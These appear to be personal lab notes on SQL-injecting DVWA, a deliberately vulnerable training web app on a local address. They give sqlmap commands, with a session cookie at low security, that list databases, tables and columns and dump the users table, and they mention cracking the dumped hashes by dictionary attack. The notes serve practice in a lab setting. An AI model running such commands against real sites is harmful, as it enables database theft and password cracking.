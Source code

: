DVWA local site will try to enforce security to impossible with its own PHPSESSID but it will
ask you if you want to set those diferently. This is obviously a vulnerability as the website should
enforce its own security and session ID.

* Test for SQL injection vulnerabilities within these fields:
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --dbs --dbms=mysql

* Grab tables:
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --tables

* Grab columns from the Users table
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --columns

* Dump table entries from the Users table:
sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --dump
	-You will be given a choice to do a dictionary attack on the hashes with default options or
	download them later to work them against other tools.
